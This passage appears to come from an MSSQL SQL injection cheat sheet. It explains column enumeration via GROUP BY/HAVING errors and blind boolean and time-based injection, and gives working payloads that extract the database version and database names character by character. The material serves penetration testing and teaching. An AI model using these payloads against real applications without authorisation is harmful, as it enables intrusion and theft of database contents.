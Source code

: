 The second column name can then be added to the query to reveal the third column name:

```sql
1 GROUP BY table1.column1, table1.column2 HAVING 1=1--
```

If the page no longer errors when adding columns, there are none left to enumerate.

## Inferential

When no data or error messages are returned, inferential injections (aka blind injections) can be used to ‘infer’ database information by using time based or boolean responses. This is done by using the [SUBSTRING](http://technet.microsoft.com/en-us/library/ms187748.aspx) function to break up query results into individual characters which can be enumerated separately. The characters are entered using the [ASCII](http://technet.microsoft.com/en-us/library/ms177545.aspx) function via their decimal codes, which can be ascertained by using this [ASCII chart](http://www.flprisktran.wpengine.com/blog/wp-content/uploads/2013/03/ascii_table.jpg). The [LOWER](http://technet.microsoft.com/en-us/library/ms174400.aspx) function is also used to ensure we only have to deal with lower case characters (up until the point of actual data retrieval).

In the case of time delay injections, thus, we are effectively asking the database: “if the first character of the database user’s name is S, wait 10 seconds before returning the page”. If the first character is not S, the page will return immediately. In the case of boolean injections, the expected page will return if the query evaluates to true and a differing page will return if the query evaluates to false.

When making inferential injections, it’s often useful to determine how many characters are in the piece of data you’re trying to extract. In MSSQL, this can be achieved by wrapping the injection in [LEN](http://technet.microsoft.com/en-us/library/ms190329.aspx) .

### Boolean 

Extract version length:

```sql
1 AND LEN(@@version)&gt;5--
```

Extract first character of version:

```sql
1 AND ASCII(LOWER(SUBSTRING((@@version),1,1)))&gt;97--
```

By increasing the SUBSTRING start argument, you can extract the second character in the version, like so:

```sql
1 AND ASCII(LOWER(SUBSTRING((@@version),2,1)))&gt;97--
```

Extract databases (replace N):

```sql
1 AND LEN(DB_NAME())&gt;5--

1 AND ASCII(LOWER(SUBSTRING((DB_NAME(N)),1,1)))&gt;97--
```
